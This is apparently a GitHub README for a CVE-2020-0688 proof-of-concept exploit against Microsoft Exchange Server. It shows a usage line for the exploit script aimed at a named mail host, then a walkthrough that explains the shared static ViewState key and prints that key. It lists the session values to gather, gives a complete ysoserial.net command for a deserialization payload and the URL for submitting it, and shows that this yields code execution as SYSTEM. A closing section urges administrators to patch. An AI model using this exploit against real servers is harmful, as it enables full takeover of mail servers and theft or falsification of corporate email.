








# CVE-2020-0688 

## Poc Usage

python3 CVE-2020-0688.py mail.chinabaiker.com username password command

## Details

This most recent Patch Tuesday, Microsoft released an Important-rated patch to address a remote code execution bug in Microsoft Exchange Server. This vulnerability was reported to us by an anonymous researcher and affects all supported versions of Microsoft Exchange Server up until the recent patch.

Initially, Microsoft stated this bug was due to a memory corruption vulnerability and could be exploited by a specially crafted email sent to a vulnerable Exchange server. They have since revised their write-up to (correctly) indicate that the vulnerability results from Exchange Server failing to properly create unique cryptographic keys at the time of installation.

Specifically, the bug is found in the Exchange Control Panel (ECP) component. The nature of the bug is quite simple. Instead of having randomly-generated keys on a per-installation basis, all installations of Microsoft Exchange Server have the same validationKey and decryptionKey values in web.config. These keys are used to provide security for ViewState. ViewState is server-side data that ASP.NET web applications store in serialized format on the client. The client provides this data back to the server via the __VIEWSTATE request parameter.



Due to the use of static keys, an authenticated attacker can trick the server into deserializing maliciously crafted ViewState data. With the help of YSoSerial.net, an attacker can execute arbitrary .NET code on the server in the context of the Exchange Control Panel web application, which runs as SYSTEM.

To exploit this vulnerability, we need to collect the ViewStateUserKey and the __VIEWSTATEGENERATOR values from an authenticated session. The ViewStateUserKey can be obtained from the ASP.NET _SessionID cookie, while the ViewStateUserKey can be found in a hidden field. All this can be easily obtained using standard developer tools within the browser.

To begin, browse to the /ecp/default.aspx page and log in. The account used does not need to have any special privileges. In this example, we are using an account named user:



To continue, we need to gather some information. The most valuable part is already known:

```
       validationkey = CB2721ABDAF8E9DC516D621D8B8BF13A2C9E8689A25303BF
       validationalg = SHA1
```

To obtain the ViewStateUserKey and the __VIEWSTATEGENERATOR, open the Network tab of Dev Tools (F12) and resend the request by hitting F5. We need the raw response of the request to /ecp/default.aspx while logged in:



As you can see, the __VIEWSTATEGENERATOR value is visible in page source. In this example, its value is B97B4E27. In all likelihood, your value will be the same. Next, open the Headers tab and find the ASP.NET_SessionId cookie in Request headers:



In this example, its value is 05ae4b41-51e1-4c3a-9241-6b87b169d663.

We now have all the information needed to conduct an attack:

```
        --validationkey = CB2721ABDAF8E9DC516D621D8B8BF13A2C9E8689A25303BF
        --validationalg = SHA1
        --generator = B97B4E27
        --viewstateuserkey = 05ae4b41-51e1-4c3a-9241-6b87b169d663
```

The next step is to generate a ViewState payload using ysoserial.net. We’ll generate a payload that demonstrates code execution by creating the file C:\Vuln_Server.txt:

```
        ysoserial.exe -p ViewState -g TextFormattingRunProperties -c "echo OOOPS!!! > c:/Vuln_Server.txt" --validationalg="SHA1" --validationkey="CB2721ABDAF8E9DC516D621D8B8BF13A2C9E8689A25303BF" --generator="B97B4E27" --viewstateuserkey="05ae4b41-51e1-4c3a-9241-6b87b169d663" --isdebug –islegacy
```



Finally, we need to URL-encode the ViewState payload and construct a URL as follows:

/ecp/default.aspx?__VIEWSTATEGENERATOR=<generator>&__VIEWSTATE=<ViewState>

substituting the generator and URL-encoded ViewState obtained above.

We then submit the resulting URL to the Exchange server simply by pasting it into the browser address bar:



The server complains of a 500 Unexpected Error, but the attack succeeds. Examining the effect on the target server:



Sure enough, the file Vuln_Server.txt now exists. Examining ownership information on the file confirms it was created by a process with a SYSTEM token.



This demonstrates that an attacker can execute arbitrary code as SYSTEM and fully compromise the target Exchange server.

Conclusion

Microsoft patched this vulnerability in February 2020 as CVE-2020-0688. According to their write-up, they addressed this vulnerability by “correcting how Microsoft Exchange creates the keys during install.” In other words, they now randomize the cryptographic keys at installation time. Microsoft rated this as Important in severity, likely because an attacker must first authenticate. It should be noted, however, that within an enterprise, most any user would be allowed to authenticate to the Exchange server. Similarly, any outside attacker who compromised the device or credentials of any enterprise user would be able to proceed to take over the Exchange server. Having accomplished this, an attacker would be positioned to divulge or falsify corporate email communications at will. Accordingly, if you’re an Exchange Server administrator, you should treat this as a Critical-rated patch and deploy it as soon as your testing is complete. Microsoft lists this with an Exploit Index of 1, which means they expect to see exploits within 30 days of the patch release. As demonstrated, that certainly seems likely.